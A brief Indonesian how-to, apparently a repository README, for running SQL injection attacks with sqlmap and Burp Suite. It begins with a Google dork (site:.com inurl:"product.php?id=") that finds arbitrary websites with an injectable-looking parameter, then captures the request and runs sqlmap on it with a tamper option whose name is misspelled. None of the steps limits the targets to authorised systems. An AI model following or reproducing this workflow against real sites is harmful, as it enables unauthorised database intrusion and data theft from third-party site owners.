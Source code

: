 # cara memakai sqlmap + burp suite

1.masukan gdorking contoh site:.com inurl:"product.php?id="

2.salin hasil intercept on

3.buat file contoh filename.txt

4.jalakan sqlmap (sqlmap -r filename.txt) bisa custom --tamper=space2commet --level 1 --risk 1
